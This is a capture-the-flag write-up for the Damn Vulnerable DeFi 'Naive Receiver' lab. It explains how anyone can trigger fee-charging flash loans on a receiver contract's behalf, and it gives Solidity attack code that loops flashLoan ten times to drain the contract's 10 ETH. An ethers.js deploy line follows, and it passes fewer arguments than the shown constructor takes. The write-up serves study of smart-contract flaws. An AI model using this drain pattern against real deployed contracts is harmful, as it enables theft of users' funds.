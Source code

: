 ### [Task Contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v3.0.0/contracts/naive-receiver)

### Task

>There’s a pool with 1000 ETH in balance, offering flash loans. It has a fixed fee of 1 ETH.

>A user has deployed a contract with 10 ETH in balance. It’s capable of interacting with the pool and receiving flash loans of ETH.

>Take all ETH out of the user’s contract. If possible, in a single transaction.

### Observations

- The Reveicever Contract has "Naively" allowed anyone to call a flash loan on it's behalf. 

- The pool it calls to remains the same so we cannot pretend to be a flashloan provider.

- However the pool in question provides a fixed fee of 1 Eth. 

- We can create a contract to make a flashloan 10 times to drain 10 Eth.

### Steps

- Write a for loop that calls the lender contracts `flashLoan` function on the naive receivers behalf...10 times. Doesn't even need to borrow a value > 0.

```
constructor(
        address payable poolAddress,
        address receiverAddress,
        address token
    ) {
        for (uint256 i = 0; i < 10; i++) {
            NaiveReceiverLenderPool(poolAddress).flashLoan(
                IERC3156FlashBorrower(receiverAddress),
                token,
                0,
                bytes("")
            );
        }
    }
```

- Deploy the malicious contract, the malicious action will run in the constructor.

```
const NaiveAttackerFactory = await ethers.getContractFactory("NaiveAttacker", attacker);
    await NaiveAttackerFactory.deploy(this.pool.address, this.receiver.address);
```

